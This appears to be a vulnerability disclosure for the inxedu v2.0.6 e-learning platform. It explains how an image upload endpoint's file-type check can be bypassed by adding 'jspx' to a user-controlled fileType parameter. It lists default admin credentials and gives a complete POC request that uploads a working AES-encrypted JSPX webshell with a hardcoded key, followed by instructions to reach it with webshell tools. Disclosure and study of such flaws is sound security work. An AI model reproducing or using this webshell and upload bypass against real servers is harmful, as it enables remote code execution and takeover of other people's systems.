

inxedu v2.0.6 has a vulnerability that can lead to upload malicious files.

Build the source code locally by downloading https://gitee.com/inxeduopen/inxedu


## code discovery

The vulnerable code location is com.inxedu.os.common.controller.ImageUploadController#gok4 

\src\main\webapp\WEB-INF\lib\inxedu-jar.jar\com\inxedu\os\common\controller\ImageUploadController.class

This code is decompiled from the project jar package（**inxedu-jar.jar**）



Line 67 check the extention of the file uploaded and restricts the upload of files ending in **jsp** ,while we can control the value of fileType by changing the parameter value of fileType, and uploading files ending with jspx bypasses the restriction.


The vulnerability exists: http://127.0.0.1:8080/admin/main

The username and password : admin/111111


## POC

```
POST /image/gok4?&param=image&fileType=jpg,gif,png,jpeg,jspx&pressText=undefined HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------1193235141139104622277612664
Content-Length: 883
Origin: http://127.0.0.1:8080
Connection: close
Referer: http://127.0.0.1:8080/admin/website/doAddImages
Cookie: JSESSIONID=10EC81B49E27265587A446F32099DBE3; inxedulogin_sys_user_=inxedulogin_sys_user_1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------1193235141139104622277612664
Content-Disposition: form-data; name="uploadfile"; filename="1.jspx"
Content-Type: image/jpeg

<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2"><jsp:directive.page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"/><jsp:declaration> class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}</jsp:declaration><jsp:scriptlet>String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);</jsp:scriptlet></jsp:root>
-----------------------------1193235141139104622277612664--
```


We can upload a jspx file,and change the value of fileType to "jpg,gif,png,jpeg,jspx",in which we add "jspx" type.

And the response returns the jspx file path.
Then we can visit the jspx file and run the Webshell tools


